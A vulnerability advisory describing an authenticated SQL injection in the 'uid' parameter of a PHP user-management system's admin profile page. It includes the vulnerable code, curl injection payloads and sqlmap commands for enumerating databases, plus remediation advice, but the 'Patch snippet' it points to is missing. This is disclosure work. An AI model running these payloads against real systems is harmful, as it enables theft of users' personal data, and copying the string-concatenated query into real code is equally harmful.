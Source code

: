 # Advisory: Authenticated SQL Injection in /admin/user-profile.php (uid) — User Registration & Login and User Management System With Admin Panel v3.3

## Summary
An authenticated SQL Injection vulnerability exists in the admin user profile page (`/admin/user-profile.php`) of “User Registration & Login and User Management System With Admin Panel” version 3.3. The `uid` GET parameter is concatenated directly into a SQL query, enabling time-based and boolean-based blind SQL injection.

- Vulnerability Type: SQL Injection (CWE-89)
- Affected Product: User Registration & Login and User Management System With Admin Panel
- Affected Version: v3.3 (confirmed)
- Affected Endpoint: `/loginsystem/admin/user-profile.php`
- Vulnerable Parameter: `uid` (GET)
- Authentication: Required (Admin session)
- Severity (proposed CVSS v3.1): 7.5 High (AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N)

## Technical Details
The page builds a query using user-controlled `uid` without parameterization or validation:

File evidence:
- Source file: loginsystem/admin/user-profile.php
- Root cause: direct string concatenation of `$_GET['uid']` into the SQL statement

```php
<?php
$userid=$_GET['uid'];
$query=mysqli_query($con,"select * from users where id='$userid'");
while($result=mysqli_fetch_array($query)) { /* render profile */ }
```

This enables attackers with a valid admin session to inject arbitrary SQL predicates, e.g. time-based blind via `SLEEP()` or boolean-based blind using `AND/OR` conditions.

## Proof of Concept (safe, reproducible)
Prerequisite: Login as admin to obtain a valid PHPSESSID cookie.

- Boolean-based blind (observe content differences or HTTP status/length):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20AND%200%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Boolean-based blind (true branch):
```bash
curl -i "http://localhost/loginsystem/admin/user-profile.php?uid=0%27%20OR%201%3D1%20--%20-" -H "Cookie: PHPSESSID=your_admin_cookie_here"
```

- Time-based blind (sqlmap; stabilize timing and reduce noise):
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=T --time-sec=10 --delay=1 --timeout=30 --retries=3 --keep-alive --random-agent --flush-session --current-db
```

Your successful run (sample) showed:
- Payload: `uid=1' AND (SELECT(SLEEP(5)))-- ...`
- Backend: Apache 2.4.39, PHP 7.3.4, MySQL ≥ 5.0.12
- Confirmed time-based blind delays and sqlmap detection (enumeration may fail under jitter; see “Verification tips”)

## Impact
- Read: Enumerate database schema and extract sensitive user data (PII: names, emails, contact numbers, registration dates).
- Pivot: Combine with other admin-side injection issues to broaden exfiltration.
- Risk: High for confidentiality; moderate for integrity (primarily SELECT-context), availability unaffected.

## Verification tips (if enumeration is unstable)
- Prefer boolean-based blind for this endpoint:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --random-agent --flush-session --dbs
```
- For time-based blind, increase `--time-sec`, add `--delay`, try `--no-cast`/`--hex`, and replay a captured request with `-r` to include exact headers/cookies.

## Remediation
- Replace direct string concatenation with prepared statements.
- Validate and type-check GET/POST parameters (e.g., ensure `uid` is an integer).
- Apply least-privilege DB accounts and server-side input validation.

Minimal secure patch suggestion (prepared statements):
See the “Patch snippet” section below for `admin/user-profile.php`.

## Affected Files
- `loginsystem/admin/user-profile.php` (primary injection point)

## Timeline
- Discovery: 2025-09-25
- Vendor Notification: TBA
- Public Disclosure: TBA

## References
- Product page (version reference): PHPGurukul “User Registration & Login and User Management System With Admin Panel” (v3.3)
- Internal code evidence: repository file `loginsystem/admin/user-profile.php`

## Credits
- Reporter: [your-name]
- Coordination: [optional CNA/Platform if applicable]

## Appendix: Suggested sqlmap commands
- Enumerate current DB with boolean-based blind:
```bash
python.exe C:\sqlmap\sqlmap.py -u "http://localhost/loginsystem/admin/user-profile.php?uid=1" --cookie="PHPSESSID=your_admin_cookie_here" -p uid --technique=B --risk=3 --level=5 --current-db
```
- Replay captured request (exact headers/cookies), time-based:
```bash
python.exe C:\sqlmap\sqlmap.py -r C:\Users\pxthe\Desktop\user-profile.txt -p uid --technique=T --time-sec=10 --delay=1 --timeout=30 --retries=3 --keep-alive --random-agent --dbs
```